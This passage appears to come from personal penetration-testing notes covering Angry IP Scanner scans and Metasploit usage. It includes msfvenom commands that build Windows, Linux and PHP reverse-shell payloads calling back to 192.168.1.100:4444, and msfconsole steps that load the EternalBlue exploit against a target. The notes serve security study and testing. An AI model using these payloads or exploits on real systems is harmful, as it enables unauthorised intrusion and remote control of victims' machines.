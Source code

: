#### Usage

Angry IP Scanner is primarily used through its GUI interface, but can also be used via the command line:

```bash
# Scan IP range
ipscan 192.168.1.0-192.168.1.255

# Scan with specific ports
ipscan 192.168.1.0-192.168.1.255 -p 22,80,443
```

#### Sample Output

![[Pasted image 20250322223946.png]]
### Metasploit Framework

The Metasploit Framework is a powerful tool for developing, testing, and executing exploits against target systems.

#### Installation

```bash
# Debian/Ubuntu
sudo apt install metasploit-framework

# Kali Linux (pre-installed)
sudo apt update
sudo apt upgrade metasploit-framework
```

#### MSFVenom Usage Examples

MSFVenom is used to generate payloads:

```bash
# List payloads
msfvenom -l payloads

# Generate a Windows reverse shell executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe

# Generate a Linux ELF binary
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf

# Generate a PHP web payload
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.php
```

#### MSFConsole Usage Examples

MSFConsole is the main interface to the Metasploit Framework:

```bash
# Start MSFConsole
msfconsole

# Search for exploits
search type:exploit platform:windows ms17-010

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue

# Set options
set RHOSTS 192.168.1.10
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```